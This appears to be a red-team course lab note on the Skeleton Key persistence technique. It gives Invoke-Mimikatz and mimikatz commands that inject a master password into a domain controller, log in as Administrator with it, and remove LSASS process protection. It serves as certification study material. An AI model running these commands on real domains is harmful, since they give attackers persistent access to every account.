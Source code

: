 ```yaml
---
title: "15. Skeleton Key"
section: "crtp"
date: 2022-04-14
tags: ["Domain Persistence", "skeleton key"]
---
```


## Use the below command to inject a skeleton-Key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
> Skeleton Key password is : **mimikatz**


## Now we can access any machine with valid username and password as mimikatz
```powershell
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```

## LSASS running as a protected process
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```